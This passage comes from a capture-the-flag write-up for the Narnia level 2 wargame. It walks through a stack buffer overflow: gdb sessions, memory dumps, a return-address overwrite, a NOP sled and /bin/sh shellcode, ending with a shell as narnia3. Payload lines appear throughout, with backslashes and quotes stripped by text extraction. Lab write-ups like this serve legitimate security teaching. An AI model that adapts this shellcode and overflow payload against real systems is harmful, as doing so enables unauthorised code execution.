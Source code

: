 Seeing as the program successfully executed the shellcode  we can now try this same payload   with the modification of the return address  on the target machine 

     Exploiting the Binary on the Target

After logging into the narnia2 user and running the same payload within gdb we see the following 

   highlight bash   
narnia2 narnia  narnia  gdb   narnia2  q                                                                                                                              37 634   
Reading symbols from   narnia2    no debugging symbols found    done   
 gdb  r   python  c  print  A  132   x98xcfxffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80               
Starting program   narnia narnia2   python  c  print  A  132   x98xcfxffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80     
  
Program received signal SIGSEGV  Segmentation fault   
0xffffcf98 in        
 gdb  x 100x  esp 200  
0xffffd448      0xf7e53f7b      0x00000000      0x00000002      0xf7fc5000  
0xffffd458      0xffffd508      0xf7e5b7f6      0xf7fc5d60      0x08048534  
0xffffd468      0xffffd488      0xf7e5b7d0      0xffffd488      0xf7ffd920  
0xffffd478      0xf7e5b7d5      0x08048494      0x08048534      0xffffd488  
0xffffd488      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd498      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4a8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4b8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4c8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4d8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4e8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4f8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd508      0x41414141      0xffffcf98      0x90909090      0x90909090  
0xffffd518      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd528      0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffd538      0x896e6962      0x895350e3      0xcd0bb0e1      0xfe790080  
0xffffd548      0xc497b545      0x00000000      0x00000000      0x00000000
   endhighlight   

Here we can see that the junk bytes end at 0xffffd508 and the EIP register is overwritten at 0xffffd50C  The nop sled then begins at 0xffffd510 and the shellcode starts at 0xffffd52c  Therefore  we can modify the payload to point to 0xffffd518 which is within the bounds of the NOP sled and the shellcode will get executed 

   highlight bash   
narnia2 narnia  narnia    narnia2   python  c  print  A  132   x18xd5xffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80     
Illegal instruction
   endhighlight   

Unfortunately  this payload did not work most likely due to a small shift in the memory address  It is important to note the fact that  Illegal instruction  was outputted instead of  Segmentation fault  which is a strong indicator that the payload is close to successful execution  It is the result of the overwritten EIP register pointing to an address with meaningless assembly code  After tweaking the address a little bit  changing x18xd5xffxff to x48xd5xffxff  we get a shell as narnia3 
